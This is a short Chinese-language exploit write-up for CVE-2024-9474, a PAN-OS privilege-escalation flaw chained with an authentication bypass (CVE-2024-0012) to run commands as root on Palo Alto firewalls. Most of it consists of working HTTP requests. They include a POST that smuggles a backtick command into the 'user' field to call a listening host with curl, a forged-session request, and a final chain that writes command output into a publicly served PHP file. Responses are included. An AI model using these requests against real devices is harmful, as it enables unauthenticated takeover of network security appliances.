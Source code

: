 权限提升漏洞，允许有权访问管理 Web 界面的 PAN-OS 管理员以 root 权限对防火墙执行操作。Cloud NGFW 和 Prisma Access 不受此漏洞影响

与2024-0012一起利用，达到任意命令执行的效果

![image-20250422191219140](./assets/CVE-2024-9474权限提升/image-20250422191219140.png)

vul file：/var/appweb/htdocs/php/utils/createRemoteAppwebSession.php



构造请求：

```
POST /php/utils/createRemoteAppwebSession.php/aaaa.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

user=`curl {{listening-host}}`&userRole=superuser&remoteHost=&vsys=vsys1
```

返回：（php会话的id值）

```
HTTP/1.1 200 OK
Date: Tue, 19 Nov 2024 09:06:44 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 48
Connection: keep-alive
Set-Cookie: PHPSESSID=isbhbjpdkhvmkhio0hcpsgmtk6; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Cache-Control: no-cache; no-store

@start@PHPSESSID=isbhbjpdkhvmkhio0hcpsgmtk6@end@
```

新创建并伪造会话：

```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=2jq4l1nv43idudknmhj830vdde;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```



完整的利用链条：（因为先要伪造一个文件）

```
POST /php/utils/createRemoteAppwebSession.php/watchTowr.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

user=`echo $(uname -a) > /var/appweb/htdocs/unauth/watchTowr.php`&userRole=superuser&remoteHost=&vsys=vsys1
```

